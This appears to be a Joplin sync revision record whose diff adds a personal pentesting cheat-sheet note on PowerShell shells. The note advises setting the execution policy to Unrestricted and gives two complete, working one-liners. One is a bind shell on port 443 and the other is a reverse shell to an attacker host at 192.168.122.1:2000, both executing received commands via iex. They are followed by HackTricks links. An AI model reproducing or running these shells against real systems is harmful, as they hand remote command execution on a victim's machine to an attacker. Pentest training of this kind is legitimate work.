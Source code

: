 id: dd7203e96705482da8a6c697c24a21e4
parent_id: 
item_type: 1
item_id: 3566bbcbee88470aad48358dd131d1fe
item_updated_time: 1646016693875
title_diff: "[{\"diffs\":[[1,\"1a72f4e7464d467d810fc01a3adf9ed0\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"PowerShell\\\r\\\n\\\r\\\nRemember to make the computer set the executionPolicy unrestricted\\\r\\\n\\\r\\\n> Set-ExecutionPolicy Unrestricted\\\r\\\n\\\r\\\nBind shell\\\r\\\n\\\r\\\n`powershell -exec bypass -c \\\"$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443); $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()\\\"`\\\r\\\n\\\r\\\nReverse Bind shell (With kali as listener \\\\[Use NetCat\\\\]):\\\r\\\n\\\r\\\n`powershell -nop -c \\\"$client = New-Object System.Net.Sockets.TCPClient('192.168.122.1',2000); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()\\\"`\\\r\\\n\\\r\\\nURL for more info\\\r\\\n\\\r\\\nhttps://book.hacktricks.xyz/shells/shells/windows\\\r\\\n\\\r\\\nhttps://book.hacktricks.xyz/windows/basic-powershell-for-pentesters\\\r\\\n\\\r\\\nid: 1a72f4e7464d467d810fc01a3adf9ed0\\\r\\\nparent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd\\\r\\\ncreated_time: 2022-01-14T07:01:30.082Z\\\r\\\nupdated_time: 2022-02-04T01:28:14.254Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 1.36730000\\\r\\\nlongitude: 103.80140000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-14T07:01:30.082Z\\\r\\\nuser_updated_time: 2022-02-04T01:28:14.254Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":2134}]"
metadata_diff: {"new":{"id":"3566bbcbee88470aad48358dd131d1fe","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016693867,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.914Z
created_time: 2022-02-28T02:54:21.914Z
type_: 13